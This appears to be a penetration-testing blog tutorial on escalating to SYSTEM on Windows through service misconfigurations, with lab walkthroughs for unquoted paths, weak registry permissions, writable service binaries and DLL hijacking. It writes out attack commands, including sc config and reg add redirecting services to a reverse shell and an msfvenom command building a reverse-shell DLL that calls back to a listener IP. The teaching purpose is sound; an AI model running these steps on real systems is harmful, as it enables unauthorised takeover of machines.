

Privilege escalation is a common technique used by penetration testers to test unauthorised access to a system. One way to achieve privilege escalation is through service misconfigurations in Windows.

A service is a program that runs in the background on a Windows system, and it can have a variety of functions such as managing network connections, printing, or running scheduled tasks. Services can be configured to run under different user accounts, and some may have higher privileges than others. **If services run with SYSTEM privileges and are misconfigured, exploiting them may lead to command execution with SYSTEM privileges too.**

**In this blog post, we'll discuss these Service Misconfigurations:**
```
1.  Insecure Service Properties
2.  Unquoted Service Path
3.  Weak Registry Permissions
4.  Insecure Service Executables
5.  DLL Hijacking.

```

### The following are service commands that will be used.

- To query the configuration of a service: `sc.exe qc <service name>`

- To query the current status of a service: `sc.exe query <service name>`

- To modify a configuration option of a service: 
`sc.exe config <service name> <option>= <value>`. Please leave one space after equal sign.

- To start a service: `net start <service name>`

- To stop a service: `net stop <service name>`


`Note:` To follow along or get the best out of this blog, please check how to set up a [virtual lab](/content/posts/Privilege_Escalation/Windows_PrivEsc/introduction/) that we are going to be using. After having your lab set up, now let's go through each type of service misconfiguration.
 

&nbsp;  


## Insecure service permissions

Permissions to access a certain resource in Windows are controlled by the access control list (ACL) for that resource. Each service has an ACL that defines certain service-specific permissions.

-   Some permissions are harmless because they can't give us a way to run executable files (e.g. `SERVICE_QUERY_CONFIG, SERVICE_QUERY_STATUS`).

-   Some may be useful (e.g. `SERVICE_STOP, SERVICE_START`).

-   Some are dangerous (e.g. `SERVICE_CHANGE_CONFIG, SERVICE_ALL_ACCESS`) because If our user has permission to change the configuration of a service which runs with SYSTEM privileges, we can change the executable the service uses to one of our own.


***NOTE :***  `If we cannot stop/start the service, we may not be able to escalate privileges! This applies to all service privilege escalation.` 


#### Steps to exploit this misconfiguration

##### Step 1

Run winPeas to enumerate and identify potential vulnerabilities in a Windows system.

`.\winPEASany.exe quiet servicesinfo` 

The above command runs WinPEAS in quiet mode and specifically focuses on gathering information about Windows services. Running this command, WinPEAS will enumerate all installed Windows services and provide information about their status, display name, service name, path, and description. Additionally, it will look for services with weak permissions or misconfigured service binaries that may be vulnerable to privilege escalation.

By default, WinPEAS will save the output to a file named `winPEAS.<timestamp>.txt` in the current directory. You can use the `>` operator to redirect the output to a different file or location.

##### Step 2

After running the above command, we can read the output file and identify service permissions of our user to check if there is a service with SYSTEM privileges and we have permission to modify it.

_If you are using the virtual lab we created before, after running the above command we can verify this on the winpeas output._


In the above screenshot, we can see `daclsvc service` can be modified. This can also be confirmed on the modifiable services section on winpeas file.

##### Step 3

Verify if the above service is modifiable with accesschk. For more about accesschk tool and how to use it, please check accesschk write-up.

Run this command to check more info about the service `.\accesschk.exe -uwcqv user daclsvc`

 From the above output, we can see the permissions we have. However, the two most important permissions are to start/stop the service and to change the configuration of the service.

##### Step 4.

Enumerate this service to see more information and check its current status.

-   To enumerate this service, use the command `sc qc daclsvc`
-   To check the status of the service, use the command `sc query daclsvc`

As we can see from the output of our commands:  From the above results: 

-   The service is configured to demand start, meaning it has to be started manually.
-   The binary path name points to daclservice.exe.
-   The service has no dependencies.
-   It should also run with the permissions of LocalSystem.
-   The service is currently stopped, meaning after we reconfigure the service, we can start it to trigger the exploit.

##### Step 5.

Since we have the permission to configure the service, we can configure the binary path to the path of our reverse shell payload. To achieve that, run `sc config daclsvc binpath="\C:\PrivEsc\reverse.exe\"` (set the path to your reverse shell path).

##### Step 6.

Start a listener with netcat: 

##### Step 7.

Start a service where our reverse shell payload will be executed: 

As you can see from the above, we have a reverse shell with system privileges.

&nbsp;  

## Unquoted Service Path

In Windows, it is possible to run executable files without specifying their file extension, for example, running `"ipconfig.exe"` by typing `"ipconfig"`. However, some executables require additional arguments to be passed to them, separated by spaces, such as `"program.exe arg1 arg2 arg3..."`. This can create ambiguity when using absolute paths that contain spaces and are unquoted, which can cause the wrong executable to be run.

Suppose we have an unquoted path in Windows, such as 
`"C:\Program Files\Directory DirName\Program.exe"`. While it's clear to us that the intended executable is Program.exe, Windows may interpret `"C:\Program"` as the executable with two arguments: `"Files\Directory"` and `"DirName\Program.exe"`. or `"C:\Program Files\Directory"` as the executable with argument `"DirName\Program.exe"`.

To resolve this ambiguity, Windows checks each of the possible executable paths in turn. This creates a security vulnerability, as an attacker could potentially trick a service into running a malicious executable instead of the intended one by writing the malicious file to a location that Windows checks before the actual executable.

#### Steps to exploit this misconfiguration. 

From the winpeas output that we run before (`.\winPEASany.exe quiet servicesinfo`) we can see this misconfiguration on service information section. 


##### Step 1. 
Query the configuration of the service `sc qc unquotedsvc`
Here is the output. 

- From the output of our query, the path is 
`C:\Program Files\Unquoted Path Service\Common Files\unquotedpathservice.exe`
- It has LocalSystem privileges, meaning if we can run our reverse shell payload, we will have System privileges. 
- It demands start

##### Step 2. 
Use accesschk.exe to see if we have permission to start the service (if we don't, then we can't exploit it even if it is vulnerable), and writable permission. 

Checking if we have permission to start the service.
- `.\accesschk.exe -ucqv user unquotedsvc`
 
We can see that we have permission to start and stop the service. 

##### Step 3. 
Using accesschk.exe to check for writable permissions of `C:\Program Files\Unquoted Path Service\Common Files\unquotedpathservice.exe`

-   Check write permission of `C:\` run `.\accesschk.exe -uwdq C:\`
-   Check write permission of `C:\Program Files\` run `.\accesschk.exe -uwdq "C:\Program Files\"`
-   Check write permission of `C:\Program Files\Unquoted Path Service\Common Files` run `.\accesschk.exe -uwdq "C:\Program Files\Unquoted Path Service\"`

 From the above results, we can see the `C:\Program Files\Unqouted Path Service` directory all `BUILTIN\Users` have the `RW` permissions This means, if we create a file in this directory, when the service starts, it will execute.

##### Step 4.
Let's copy our reverse shell into this directory where we have write permission. `copy C:\PrivEsc\reversee.exe "C:\Program Files\Unquoted Path Service\reversee.exe"`  (change the reversee.exe to the name of your reverse shell)  

##### Step 5. 
Set up a listener on a Linux machine and start the service.  From the above result, we've got the shell back with system privileges.


&nbsp;

## Weak Registry Permissions

Weak registry permissions relate to access control issues in the Windows registry, which acts as a central database that stores configuration settings for the operating system and applications. Specifically, weak registry permissions imply that the permissions given to certain registry keys or values are excessively permissive, granting non-administrator users or attackers the ability to modify or delete critical registry entries. This can result in numerous security concerns such as privilege escalation, persistence, and the ability to execute malicious code.

Misconfigured Access Control Lists (ACLs) on registry entries can enable an attacker to modify a service's configuration, even if they do not have direct access to modify the service itself.

The following are steps to exploit this misconfiguration. Using our lab and the result of winpeas (`.\winPEASany.exe quiet servicesinfo`)  As it appears our user can modify the registry entry of regsvc service.

#### Step 1.

Verify the permissions

-   using Powershell run `PS> Get-Acl HKLM:\System\CurrentControlSet\Services\regsvc | Format-List`  From the results above, we can see that `NT AUTHORUTY\INTERACTIVE` has full control.

#### Step 2.

-   Use accesschk to see if we can stop or start a service. `.\accesschk.exe -ucqv user regsvc`  From the above picture, it appears that we do have permission to start and stop the service.

-   Let's check the current values of the regsvc. `reg query HKLM\System\CurrentControlSet\Services\regsvc`  From the results, it appears that the ImagePath is set to `"C:\Program Files\Insecure Registry Service\insecureregistryservice.exe"` and it executes with localsystem privileges.


Step 3: 
Overwrite the ImagePath registry key to point to our reverse shell executable: `reg add HKLM\SYSTEM\CurrentControlSet\services\regsvc /v ImagePath /t REG_EXPAND_SZ /d C:\PrivEsc\reversee.exe /f` 

Step 4. 
Set up a listener on a Linux machine and start the service.  As we can see above, we have got the shell back with system privileges.

## Insecure Service Executables

Insecure Service Executables are a common vulnerability that can be exploited by attackers to escalate their privileges on a system. A service executable is a programme that runs in the background and provides functionality to other programmes or users on the system. If a service executable is not properly secured, an attacker can potentially exploit it to gain elevated privileges on the system.

There are several ways that an insecure service executable can lead to privilege escalation. For example, an attacker may be able to exploit a buffer overflow or other vulnerability in the service to execute arbitrary code with elevated privileges. Alternatively, the attacker may be able to **replace the legitimate service executable with a malicious one that provides them with elevated privileges.**

As we can see in the output of WinPEAS (`.\winPEASany.exe quiet servicesinfo`): 

### Steps to exploit this misconfiguration:

##### Step 1. 
Use Accesschk.exe to check the permissions of the executable: `.\accesschk.exe -uqvw "C:\Program Files\File Permissions Service\filepermservice.exe"` 

-   From the above output, we have all permissions of the file.

#### Step 2. 
Check if we can start and stop the service: Run `.\accesschk.exe -quvc filepermsvc`


-   From the output above, we can start and stop the service
-   We can configure the service.

##### Step 3. 
Backup the original file: `copy "C:\Program Files\File Permissions Service\filepermservice.exe" C:\Temp`

#### Step 4. 
Copy the reverse shell executable and overwrite the original executable. Use the following command. Change the name of the reverse shell payload to yours: `copy C:\PrivEsc\reversee.exe "C:\Program Files\File Permissions Service\filepermservice.exe"` 

##### Step 5.
Set up a listener on a Linux virtual machine and start the service: 

-   As you can see in the above output, we have the authority/system privileges.
-  Restore the original file.


## DLL Hijacking

DLL hijacking is a type of attack that involves replacing a legitimate Dynamic Link Library (DLL) with a malicious one in order to execute unauthorised code on a system. This attack can be used to escalate privileges on a system.

 DLL hijacking can be used as part of a privilege escalation attack if the attacker is able to replace a DLL that is loaded by a process running with higher-level privileges, such as an administrative account or a system service.

When the malicious DLL is loaded by the targeted process, it can execute arbitrary code with the same level of privileges as the process. This can allow an attacker to perform actions that would normally be restricted, such as accessing sensitive data or running commands with elevated privileges.

As we can see from the WinPEAS output of our testing lab (`.\winPEASany.exe quiet servicesinfo`): 


## Steps to exploit this misconfiguration.

##### Step 1. 
Enumerate all services in the WinPEAS output to see which one our user can start and stop.

-   For the sake of the length of this blog, I am going to only focus on dllsvc, and here is the output.
-   From the WinPEAS output, the dllsvc runs at this path `"C:\Program Files\DLL Hijack Service\dllhijackservice.exe"`


-   We can start and stop the dllsvc from the above output.

##### Step 2.
Query the configuration of the service for more information. `sc qc dllsvc` 

From the above output:

-   It requires demand_start
-   The binary path name is `C:\Program Files\DLL Hijack Service\dlljackservice.exe`
-   It has local system privileges.

##### Step 3. 
We have to copy this file (`dllhijackservice.exe`) into the Windows machine that we have administrator privileges to investigate the program more.

-   In our lab, we can use our Windows virtual machine to test this, but in the real world, copy the file and investigate it more in another machine with admin privileges.

##### Step 4. 
Use Procmon to investigate more about the service. 

##### Step 5. 
Configure Procmon64.exe as follows:

-   Run it with administrator privileges. Use the password of the admin which is `password123`. Stop and clear the current capture
 
-   Press Ctrl+L to open the Filter menu.

-   Add a new filter on the Process Name matching dllhijackservice.exe. 
-   On the main screen, deselect registry activity and network activity. 
    

##### Step 6.

-  Start the service in the Windows virtual machine. `net start dllsvc` 


##### Step 7. 
Investigate the result of Pocmon capture. 

From the output:

-   We can see the number of NOT FOUND error messages for hijackme.dll file
-   We can see Windows is trying to go into each folder to find the file, and at some point, it went into `C:\Temp\` folder `where we have write permission` to find hijackme.dll file
-   We can create our file with a reverse shell named hijackme.dll and put it in this folder, and Windows will execute it.

##### Step 8. 
Create DLL reverse shell in Linux using this command
`msfvenom -p windows/x64/shell_reverse_tcp LHOST=192.168.1.217 LPORT=7676 -f dll -o hijackme.dll`

-   Please change the IP address of the command to yours and port number to the one you want to listen to.
-   Transfer this file into the `C:\Temp` folder by `copy \\192.168.1.217\tools\hijackme.dll C:\Temp\`

##### Step 9.
-   Create a listener on your Linux machine
 
-   Stop the dllsvc service and restart it again. 
 

 In the above output, we can see we have successfully escalated our privileges.


Congratulations for making it to the end of this lengthy post. The above step-by-step explanation of how to exploit service misconfigurations can be used on any Windows system, but to get the best out of this write-up, we used this lab.